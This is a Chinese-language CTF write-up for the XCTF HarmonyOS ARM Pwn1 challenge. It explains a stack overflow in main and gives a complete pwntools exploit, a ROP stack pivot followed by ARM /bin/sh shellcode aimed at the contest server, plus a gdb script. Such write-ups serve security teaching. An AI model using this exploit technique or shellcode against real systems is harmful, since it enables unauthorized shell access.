 ```yaml
---
title: XCTF华为鸿蒙专场 ARM Pwn1
date: 2020-12-29 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出
---
```


> main函数read栈溢出，故输入无限制。ARM题目的一般环境是QEMU用户态，默认不支持NX，故直接ROP+栈迁移然后写shellcode即可。

- 题目附件：[arm_pwnit.zip](https://xuanxuanblingbling.github.io/assets/attachment/huawei/arm_pwnit.zip)
- shellcode: [http://shell-storm.org/shellcode/files/shellcode-659.php](http://shell-storm.org/shellcode/files/shellcode-659.php)

```python
from pwn import *
context(arch='arm',os='linux',log_level='debug')

#io = process(["qemu-arm","-g","1234","-L",".","./bin"])
#io = process(["qemu-arm","-L",".","./bin"])
io = remote("139.159.210.220",9999)
shellcode =  b'\x02\x20\x42\xe0\x1c\x30\x8f\xe2'
shellcode += b'\x04\x30\x8d\xe5\x08\x20\x8d\xe5'
shellcode += b'\x13\x02\xa0\xe1\x07\x20\xc3\xe5'
shellcode += b'\x04\x30\x8f\xe2\x04\x10\x8d\xe2'
shellcode += b'\x01\x20\xc3\xe5\x0b\x0b\x90\xef'
shellcode += b'/bin/sh;'

pop_r3_pc = 0x00010348
data_addr = 0x00021030
read_addr = 0x000104E8

payload = b'a'*256+p32(data_addr)+p32(pop_r3_pc)+p32(data_addr)+p32(read_addr)
io.sendafter("input: ",payload);sleep(0.1)
io.sendline(p32(data_addr+4)+shellcode)
io.interactive()
```

gdb脚本：

```c
file bin
set architecture arm
b * 0x00010500
b * 0x000104F4
target remote :1234
```

其他WP都是用通用gadget做的（我还不会...感觉对于qemu题麻烦了，还要泄露libc啥的，而且exp中立即数太多，看着迷糊：

- [XCTF高校网络安全专题挑战赛-HarmonyOS和HMS专场 官方Writeup](https://www.xctf.org.cn/library/details/5acdc1c31cf4935ac38fce445978888a5710cf11/)
- [xctf高校挑战赛2020-华为harmonyos和hms专场WP（pwn部分）](https://www.1p0ch.cn/2020/12/28/%E5%8D%8E%E4%B8%BAxctf%E7%AC%AC%E4%B8%89%E5%9C%BApwn/)
- [peanuts'blog XCTF-华为专场](http://peanuts2ao.top/2020/12/30/XCTF-%E5%8D%8E%E4%B8%BA%E4%B8%93%E5%9C%BA/)
- [华为三场CTF WP By Nu1L](https://mp.weixin.qq.com/s/6bclKFJudlX1OBsS4WY3dw)

